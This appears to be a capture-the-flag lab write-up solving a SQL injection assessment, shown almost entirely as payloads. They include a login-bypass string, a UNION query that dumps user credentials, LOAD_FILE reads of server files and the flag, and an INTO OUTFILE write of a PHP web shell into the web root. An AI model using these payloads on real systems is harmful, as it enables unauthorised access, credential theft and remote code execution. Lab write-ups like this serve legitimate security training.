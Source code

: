 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Bypass login

```
# username
asdf' or '1'='1' -- -
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

```
cn' UNION select 1, id, username, password, 5 from ilfreight.users-- -
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption><p>root:password</p></figcaption></figure>

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

flag\_cae1dadcd174.txt

```
cn' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>



